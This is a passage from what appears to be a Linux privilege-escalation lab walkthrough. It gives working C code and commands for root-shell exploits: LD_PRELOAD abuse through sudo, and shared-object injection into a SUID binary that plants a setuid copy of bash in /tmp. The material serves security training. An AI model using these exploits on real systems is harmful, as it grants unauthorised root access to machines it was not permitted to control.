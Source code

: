 1. In command prompt type: sudo -l
2. From the output, notice that the LD_PRELOAD environment variable is intact.

Exploitation

1. Open a text editor and type:
`
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
`
`
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}`

2. Save the file as x.c
3. In command prompt type:
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
4. In command prompt type:
sudo LD_PRELOAD=/tmp/x.so apache2
5. In command prompt type: id

## Privilege Escalation - SUID (Shared Object Injection) 

Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command line type:
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
4. From the output, notice that a .so file is missing from a writable directory.

Exploitation

Linux VM

5. In command prompt type: mkdir /home/user/.config
6. In command prompt type: cd /home/user/.config
7. Open a text editor and type:

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

8. Save the file as libcalc.c
9. In command prompt type:
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
10. In command prompt type: /usr/local/bin/suid-so
11. In command prompt type: id
